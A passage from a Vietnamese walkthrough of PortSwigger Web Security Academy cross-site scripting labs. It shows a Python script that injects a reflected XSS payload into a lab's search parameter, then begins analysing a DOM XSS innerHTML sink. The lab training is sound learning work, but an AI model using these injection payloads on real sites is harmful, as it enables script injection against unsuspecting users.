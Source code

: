 và mình đã viết lại script khai thác

```python
#!/usr/bin/python3.7
import requests
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0afa009f04b659d480e512f7005b0068.web-security-academy.net'

response = requests.get(
    url + "/?search=\"><script>alert('XSS')</script>",
)

soup = BeautifulSoup(response.text,'html.parser')
print(soup)
```

mục đích của chúng ta đã hoàn thành và mình cũng đã giải quyết được bài lab này

![image](https://hackmd.io/_uploads/SyrJZr89T.png)

## 4. Lab: DOM XSS in innerHTML sink using source location.search

link: https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-innerhtml-sink

### Phân tích

- Lab này chứa lỗ hổng DOM-based XSS ở chức năng tìm kiếm blog, nó sử dụng thuộc tính innerHTML, thứ sẽ thay đổi nội dung HTML ở trong thẻ `<div>`, sử dụng dữ liệu từ location.search. Để solve lab thì mình cần thực hiện được câu lệnh alert().

![image](https://hackmd.io/_uploads/ryyefH89T.png)

![image](https://hackmd.io/_uploads/r15XMHI96.png)

```javascript
<script>
    function doSearchQuery(query) {
        document.getElementById('searchMessage').innerHTML = query;
    }
    var query = (new URLSearchParams(window.location.search)).get('search');
    if(query) {
        doSearchQuery(query);
    }
</script>
```

- Đoạn script này sẽ lấy giá trị của tham số search trên URL đưa vào biến query, sau đó nó sẽ tìm thẻ nào có phần id=‘searchMessage’, sau đó gán nội dung HTML của thẻ đó bằng giá trị của biến query, cho phép hiển thị kết quả của truy vấn tìm kiếm lên trang web.
- Vậy là thứ mình cần khai thác là phần giá trị của tham số search trên URL, vì giá trị này sẽ được gán vào query sau đó được thực hiện bằng innerHTML
